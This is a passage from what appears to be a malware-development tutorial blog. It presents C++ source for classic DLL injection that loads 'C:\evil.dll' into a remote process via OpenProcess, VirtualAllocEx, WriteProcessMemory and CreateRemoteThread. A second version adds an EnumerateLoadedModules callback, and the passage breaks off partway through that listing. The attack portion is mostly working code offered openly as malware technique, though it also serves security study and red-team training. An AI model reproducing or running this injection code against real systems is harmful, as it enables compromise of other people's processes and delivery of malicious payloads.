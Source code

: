 As you can see, everything is worked perfectly!     

### practical example 2. inject dll

Let's say we have a malware with [classic DLL injection](/tutorial/2021/09/20/malware-injection-2.html) logic `hack2.cpp`:    

```cpp
#include <iostream>
#include <windows.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char *argv[]) {
  // inject a DLL into remote process
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));  
  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  CloseHandle(ph);
  return 0;
}
```

And then, we modify this code a little bit: we add `EnumerateLoadedModules` API call with previous callback function:

```cpp
/*
hack2.cpp
DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <iostream>
#include <windows.h>
#include <dbghelp.h>

#pragma comment (lib, "dbghelp.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// callback function
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
    // print the module name.
    printf("%s\n", ModuleName);
    return TRUE;
}

int main(int argc, char *argv[]) {
  // inject a DLL into remote process

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
```